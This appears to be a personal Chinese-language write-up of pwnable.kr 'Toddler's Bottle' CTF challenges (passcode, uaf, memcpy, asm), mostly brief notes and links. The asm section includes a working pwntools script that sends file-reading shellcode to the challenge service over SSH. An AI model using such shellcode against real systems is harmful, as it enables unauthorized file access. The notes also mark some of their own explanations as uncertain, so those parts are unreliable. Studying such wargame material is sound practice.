 通关密码


类似shellshock漏洞

# uaf 

漏洞：use after free 漏洞

考点： C++ 中虚函数内存排布，C++中堆释放顺序，堆的调用利用顺序，这些都是基础知识。


# memcpy 


参考：https://etenal.me/archives/972#C18

源码：http://pwnable.kr/bin/memcpy.c

https://github.com/Macmod/pwnable-writeups/blob/master/toddlers/memcpy.md
需要加入 8 字节，需要尝试

http://pwdme.cc/2017/04/19/pwnable-kr-toddlers-bottle-3/
这个里面对 int（（x + 4)/8+1），可能是有错误，但是整个数据还是很多

漏洞：需要输入的参数是16字节对齐，因此需要输入的参数是16的倍数。
但是关于对齐还是不是很懂，还需要调试一下，才能明白


# asm 

shellcode编写采用

https://github.com/Macmod/pwnable-writeups/blob/master/toddlers/asm.md

直接用pwntools提供的工具比较简单，加入需要自己手工写shellcode还是可以滴，但是相对比较难而已。
但是作为hacker，这个技能还是得会的。

代码贴出来：

	from pwn import *
	
	con = ssh(host='pwnable.kr', user='asm', password='guest', port=2222)
	p = con.connect_remote('localhost', 9026)
	context(arch='amd64', os='linux')
	shellcode = ''
	shellcode += shellcraft.pushstr('this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong')
	
	shellcode += shellcraft.open('rsp', 0, 0) #rsp 保存到栈顶
	shellcode += shellcraft.read('rax', 'rsp', 100) #rsp 读出rax的值然后输入到rsp上
	shellcode += shellcraft.write(1, 'rsp', 100) # 
	#linux 0--->stdin,1--->stdout,2--->stderr.write(1,'rsp',100)
	# log.info(shellcode)
	p.recvuntil('shellcode: ')
	print (shellcode+'\n')
	p.send(asm(shellcode))
	log.success(p.recvline())
